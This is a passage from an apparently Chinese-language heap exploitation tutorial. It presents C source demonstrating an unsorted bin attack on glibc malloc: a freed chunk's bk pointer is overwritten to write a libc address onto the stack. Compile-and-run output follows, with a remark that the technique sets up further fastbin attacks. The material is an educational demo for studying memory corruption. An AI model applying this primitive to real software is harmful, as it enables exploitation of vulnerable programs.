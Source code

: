 ```c
  fprintf(stderr, "%p: %ld\n\n", &target_var, target_var);

  unsigned long *p = malloc(400);
  fprintf(stderr, "Now, we allocate first normal chunk on the heap at: %p\n",
          p);
  fprintf(stderr, "And allocate another normal chunk in order to avoid "
                  "consolidating the top chunk with"
                  "the first one during the free()\n\n");
  malloc(500);

  free(p);
  fprintf(stderr, "We free the first chunk now and it will be inserted in the "
                  "unsorted bin with its bk pointer "
                  "point to %p\n",
          (void *)p[1]);

  /*------------VULNERABILITY-----------*/

  p[1] = (unsigned long)(&target_var - 2);
  fprintf(stderr, "Now emulating a vulnerability that can overwrite the "
                  "victim->bk pointer\n");
  fprintf(stderr, "And we write it with the target address-16 (in 32-bits "
                  "machine, it should be target address-8):%p\n\n",
          (void *)p[1]);

  //------------------------------------

  malloc(400);
  fprintf(stderr, "Let's malloc again to get the chunk we just free. During "
                  "this time, target should has already been "
                  "rewrite:\n");
  fprintf(stderr, "%p: %p\n", &target_var, (void *)target_var);
}
```

程序执行后的效果为

```shell
➜  unsorted_bin_attack git:(master) ✗ gcc unsorted_bin_attack.c -o unsorted_bin_attack
➜  unsorted_bin_attack git:(master) ✗ ./unsorted_bin_attack
This file demonstrates unsorted bin attack by write a large unsigned long value into stack
In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the global variable global_max_fast in libc for further fastbin attack

Let's first look at the target we want to rewrite on stack:
0x7ffe0d232518: 0

Now, we allocate first normal chunk on the heap at: 0x1fce010
And allocate another normal chunk in order to avoid consolidating the top chunk withthe first one during the free()

We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer point to 0x7f1c705ffb78
Now emulating a vulnerability that can overwrite the victim->bk pointer
And we write it with the target address-16 (in 32-bits machine, it should be target address-8):0x7ffe0d232508

Let's malloc again to get the chunk we just free. During this time, target should has already been rewrite:
0x7ffe0d232518: 0x7f1c705ffb78
```
